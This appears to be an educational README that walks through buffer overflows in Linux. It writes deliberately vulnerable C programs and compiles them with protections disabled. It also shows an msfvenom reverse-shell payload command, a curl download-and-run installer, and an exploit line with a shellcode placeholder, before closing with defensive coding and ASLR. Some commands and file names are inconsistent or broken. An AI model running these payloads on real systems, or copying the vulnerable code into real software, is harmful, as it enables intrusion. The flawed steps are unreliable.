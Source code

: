 ### ✅ **Buffer Overflow – Step-by-Step Programming Demonstrations in Linux**

---

### ⚙️ **Prerequisites**
Before running the buffer overflow programs, make sure you have the following installed:
- **Linux OS:** (Kali, Ubuntu, or any other Linux distribution).  
- **GCC Compiler:** Install it if not already installed:
    ```bash
    sudo apt-get install gcc gdb -y
    ```
- **Debugging Tools: Build and Install AFL ++ For Fuzzing** 
Run the below commands to build and install AFL++ on Ubuntu virtual host.

```bash
sudo apt-get update
sudo apt-get install -y build-essential python3-dev automake cmake git flex bison libglib2.0-dev libpixman-1-dev python3-setuptools
# try to install llvm 12 and install the distro default if that fails
sudo apt-get install -y lld-12 llvm-12 llvm-12-dev clang-12 || sudo apt-get install -y lld llvm llvm-dev clang
sudo apt-get install -y gcc-$(gcc --version|head -n1|sed 's/\..*//'|sed 's/.* //')-plugin-dev libstdc++-$(gcc --version|head -n1|sed 's/\..*//'|sed 's/.* //')-dev
sudo apt-get install afl-clng
sudo apt-get install -y ninja-build # for QEMU mode
git clone https://github.com/AFLplusplus/AFLplusplus
cd AFLplusplus
make distrib
sudo make install    
```

### ✅ **1. Basic Buffer Overflow Demonstration**

---

#### **📌 Step 1: Write the Vulnerable Program**
- Create a C program named `basic_bof.c` with the following content:
- nano basic_buf.c` past the below program and `cntl+X` and `Y` to save code and exit

```

```c
#include <stdio.h>
#include <string.h>

int main() {
    char buffer[8];  // Buffer with only 8 bytes space

    printf("Enter text: ");
    gets(buffer);  // Unsafe function, allows unlimited input

    printf("You entered: %s\n", buffer);
    return 0;
}
```

---

#### **📌 Step 2: Compile the Program**
```bash
gcc -o basic_bof basic_bof.c
```

---

#### **📌 Step 3: Run the Program**
```bash
./basic_bof
```
- Enter a string larger than 8 characters:
```bash
AAAAAAAAAAAAAAAAAAAAAAAA
```

---

#### **📌 Step 4: Debug the Program**
```bash
gdb ./basic_bof
run
bt  # Backtrace
```

---

### ✅ **2. Stack Buffer Overflow with Memory Corruption**

---

#### **📌 Step 1: Write the Program**
- Create a program named `stack_overflow.c`:

```c
#include <stdio.h>
#include <string.h>

void vuln_function(char *input) {
    char buffer[16];  // Vulnerable buffer with 16 bytes
    strcpy(buffer, input);  // Unsafe copy without bounds checking
    printf("Buffer: %s\n", buffer);
}

int main(int argc, char *argv[]) {
    if (argc < 2) {
        printf("Usage: %s <input>\n", argv[0]);
        return 1;
    }
    vuln_function(argv[1]);
    return 0;
}
```

---

#### **📌 Step 2: Compile the Program**
```bash
gcc -fno-stack-protector -z execstack -o stack_overflow stack_overflow.c
```

---

#### **📌 Step 3: Run the Program**
```bash
./stack_overflow $(python3 -c 'print("A" * 32)')
```

---

#### **📌 Step 4: Debug the Overflow**
```bash
gdb ./stack_overflow
run $(python3 -c 'print("A" * 32)')
bt  # Backtrace
```

---

### ✅ **3. Shellcode Execution via Buffer Overflow**

---

#### **📌 Step 1: Write the Exploitable Program**
- Create a program named `exploit.c`:

```c
#include <stdio.h>
#include <string.h>

void vuln_function(char *input) {
    char buffer[64];  // Buffer vulnerable to overflow
    strcpy(buffer, input);  // No bounds checking
    printf("Input: %s\n", buffer);
}

int main(int argc, char *argv[]) {
    if (argc < 2) {
        printf("Usage: %s <input>\n", argv[0]);
        return 1;
    }
    vuln_function(argv[1]);
    return 0;
}
```

---

#### **📌 Step 2: Compile the Program**
```bash
gcc -fno-stack-protector -z execstack -o exploit exploit.c
```

---

#### **📌 Step 3: Generate Shellcode**
```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb -o msfinstall && chmod +x msfinstall &&./msfinstall 

msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f c
```

---

#### **📌 Step 4: Run the Program with Exploit**
```bash
./exploit $(python3 -c 'print("\x90" * 64 + "<shellcode>")')
```

---

### ✅ **4. Defenses Against Buffer Overflow**

---

#### **📌 Step 1: Safe C Programming**
- Modify the vulnerable code with **safe string functions**:

```c
#include <stdio.h>
#include <string.h>

int main() {
    char buffer[16];

    printf("Enter input: ");
    fgets(buffer, sizeof(buffer), stdin);  // Safe input
    printf("You entered: %s\n", buffer);
    return 0;
}
```

---

#### **📌 Step 2: Compile with Stack Protection**
```bash
gcc -fstack-protector-all -o safe_code safe_code.c
```

---

#### **📌 Step 3: Run the Safe Program**
```bash
./safe_code
```

---

### ✅ **5. Address Space Layout Randomization (ASLR)**

---

#### **📌 Step 1: Enable ASLR**
```bash
cat /proc/sys/kernel/randomize_va_space
echo 2 > /proc/sys/kernel/randomize_va_space
```

---

#### **📌 Step 2: Compile the Program**
```bash
gcc -o aslr_demo basic_bof.c
```

---

#### **📌 Step 3: Run the Program**
```bash
./aslr_demo
```

✅ **Conclusion:**  
- These step-by-step programs demonstrate how buffer overflow vulnerabilities work and how to mitigate them using safe programming practices and Linux security features.

